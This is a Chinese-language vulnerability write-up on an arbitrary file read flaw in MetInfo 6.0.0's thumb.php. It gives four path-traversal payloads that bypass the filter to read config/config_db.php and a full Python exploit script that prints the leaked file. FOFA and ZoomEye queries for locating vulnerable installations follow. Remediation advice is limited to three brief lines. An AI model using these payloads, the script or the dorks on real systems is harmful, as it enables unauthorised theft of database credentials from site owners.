



### 1.1、漏洞描述

漏洞名称：MetInfo任意文件读取

漏洞简介：MetInfo是一套使用PHP和MySQL开发的内容管理系统，其中的`/app/system/include/module/old_thumb.class.php`文件存在任意文件读取漏洞，攻击者可利用该漏洞读取网站的敏感文件。

下载地址：[历史版本安装文件下载 Ver_6.0.0](http://v.metinfo.cn/)

### 1.2、漏洞等级

高危

### 1.3、影响版本


影响版本：MetInfo 6.0.0

### 1.4、漏洞复现

#### 代码审计

```php
defined('IN_MET') or exit('No permission');

load::sys_class('web');

class old_thumb extends web{

      public function doshow(){
        global $_M;

         $dir = str_replace(array('../','./'), '', $_GET['dir']);


        if(substr(str_replace($_M['url']['site'], '', $dir),0,4) == 'http' && strpos($dir, './') === false){
            header("Content-type: image/jpeg");
            ob_start();
            readfile($dir);
            ob_flush();
            flush();
            die;
        }
```

 \$dir = str_replace(array('../','./'), '', $_GET['dir']);

dir变量接受来自$_GET['dir']传递进来的值，用了str_replace函数做替换，将`../`，`./`替换成空值

readfile(\$dir);

#### 漏洞点

```python
/include/thumb.php
```

使用bp进行抓包



测试一：

```php
/include/thumb.php?dir=..././http/..././config/config_db.php
```

测试二：

```php
/include/thumb.php?dir=.....///http/.....///config/config_db.php
```

测试三：

```php
/include/thumb.php?dir=http/.....///.....///config/config_db.php
```

测试四：

```php
/include/thumb.php?dir=http\..\..\config\config_db.php
    
   
# 此POC 仅适用于Windows 系统，Linux 下无效  
#    只有windows以右斜杠作为文件路径分隔符
```



### 1.5、深度利用

#### EXP编写

```python
import requests
import sys

banner = """
MetInfo 6.0.0
    ___________.__.__           __________                   .___
    \_   _____/|__|  |   ____   \______   \ ____ _____     __| _/
    |    __)  |  |  | _/ __ \   |       _// __ \\__  \   / __ | 
    |     \   |  |  |_\  ___/   |    |   \  ___/ / __ \_/ /_/ | 
    \___  /   |__|____/\___  >  |____|_  /\___  >____  /\____ | 
        \/                 \/          \/     \/     \/      \/ 
     
Usage: python3 *.py http://192.168.80.139/MetInfo6.0.0/
"""

headers = {
    "User-Agent":   "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36"
}

dir_list = [
    "..././http/..././config/config_db.php",
    ".....///http/.....///config/config_db.php",
    "http/.....///.....///config/config_db.php",
    "http\..\..\config\config_db.php"
]

def attack(host):
    vul = "/include/thumb.php"
    url = host + vul

    res = requests.get(url = url, headers = headers)

    if res.status_code != 200:
        print(f"[INFO] {vul} is Not Exists!")
        exit()

    print(f"[INFO] {vul} is Exists!")

    for param in dir_list:
        params = {
            "dir":  param 
        }

        res = requests.get(url = url, params = params, headers = headers)

        print(f"[INFO] Test URL: {res.url}")

        if "<?php" in res.text:
            print("[RESULT] The target is vulnreable!")
            print(f"[RESULT]\n{res.text}")
            break

if len(sys.argv) < 2:
    print(banner)
    exit()

host = sys.argv[1]

attack(host = host)
```



### 1.6、漏洞挖掘

FOFA

```text
app="metinfo"
```

ZoomEye

```text
app:"MetInfo"
app:"MetInfo"+os:"Windows"
```

### 1.7修复建议

- 升级
- 打补丁
- 上设备